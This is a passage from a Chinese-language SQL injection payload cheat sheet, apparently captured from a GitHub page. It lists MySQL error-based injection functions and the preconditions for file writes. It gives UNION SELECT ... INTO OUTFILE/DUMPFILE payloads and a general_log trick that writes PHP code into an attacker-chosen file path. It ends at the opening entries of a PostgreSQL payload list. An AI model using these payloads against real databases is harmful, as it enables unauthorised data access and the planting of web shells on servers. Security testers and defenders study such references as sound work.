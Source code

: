 -   extractvalue

-   updatexml

-   GeometryCollection

-   linestring

-   multilinestring

-   multipoint

-   multipolygon

-   polygon

-   exp

#### 写文件

##### 写文件前提

-   root 权限

-   知晓文件绝对路径

-   写入的路径存在写入权限

-   secure_file_priv 允许向对应位置写入

-   select count(file_priv) from mysql.user

##### 基于into写文件

```sql
union select 1,1,1 into outfile '/tmp/demo.txt'
union select 1,1,1 into dumpfile '/tmp/demo.txt'
```

dumpfile 和 outfile 不同在于，outfile 会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

##### 基于log写文件

```sql
show variables like '%general%';
set global general_log = on;
set global general_log_file = '/path/to/file';
select '<?php var_dump("test");?>';
set global general_log_file = '/original/path';
set global general_log = off;
```

#### PostgresSQL Payload

- **Version**

  -   SELECT version()

- ##### Comment

  -   SELECT 1 \-- comment
